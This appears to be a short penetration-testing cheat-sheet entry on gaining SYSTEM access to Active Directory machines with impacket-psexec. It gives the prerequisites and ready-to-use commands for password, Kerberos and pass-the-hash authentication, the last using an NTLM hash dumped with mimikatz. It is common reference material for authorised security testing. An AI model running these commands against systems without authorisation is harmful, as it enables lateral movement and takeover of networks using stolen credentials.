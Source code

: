 ```yaml
---
tags:
  - active_directory
---
```

# psexec

Use administrative credentials to authenticate to an Active Directory machine as `nt authority\system`

Requires:

- User logging in to be a member of the `administrators` local group
- `ADMIN$` share must be available (default)
- File and printer sharing must be turned on (default)

## Capabilities

```bash
# Authenticate with credentials
impacket-psexec '$DOMAIN/username:password@$IP'

# Authenticate with kerberos
impacket-psexec $DOMAIN/username@$IP -k -no-pass

# Authenticate with hash
impacket-psexec -hashes :7a38... username@$IP
impacket-psexec -hashes 00000000000000000000000000000000:7a38... username@$IP
```

Note: In the hash example, we fill in the left side of the colon with zeros, and the right is the administrators NTLM hash pulled from `mimikatz`
